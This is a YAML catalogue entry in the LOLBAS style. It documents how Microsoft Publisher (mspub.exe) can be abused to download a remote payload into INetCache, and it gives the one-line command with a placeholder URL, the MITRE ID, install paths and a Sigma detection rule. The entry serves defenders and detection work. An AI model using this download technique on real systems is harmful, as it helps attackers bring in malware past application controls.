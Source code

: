 ```yaml
---
Name: Mspub.exe
Description: Microsoft Publisher
Author: Nir Chako
Created: 2022-08-02
Commands:
  - Command: mspub.exe {REMOTEURL}
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in INetCache.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\MSPUB.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office\Office16\MSPUB.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\MSPUB.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office\Office15\MSPUB.exe
  - Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\MSPUB.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office\Office14\MSPUB.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_lolbin_mspub_download.yml
  - IOC: Suspicious Office application internet/network traffic
Acknowledgement:
  - Person: 'Nir Chako (Pentera)'
    Handle: '@C_h4ck_0'
---
```


